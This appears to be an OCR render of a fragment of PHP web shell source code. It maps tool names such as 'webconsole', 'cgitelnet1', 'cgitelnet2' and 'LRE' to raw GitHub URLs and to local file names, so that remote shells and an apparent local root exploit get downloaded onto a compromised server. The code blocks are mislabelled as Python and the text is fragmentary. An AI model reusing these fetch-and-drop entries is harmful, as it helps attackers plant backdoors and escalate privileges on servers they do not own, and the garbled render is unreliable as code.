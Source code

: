 ## $name === "webconsole"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/webcon", "webconsole.php");
```


## $name === "cgitelnet1"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi1", "idx_cgi/cgitelnet1.idx");
```


## $name === "cgitelnet2"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/cgi2", "idx_cgi/cgitelnet2.idx");
```


## $name === "LRE"
```python
array("https://raw.githubusercontent.com/0xfffffffffffffffffffffffffffffffffff/shit_i_need_in_life/master/makman", "makman.php");
```
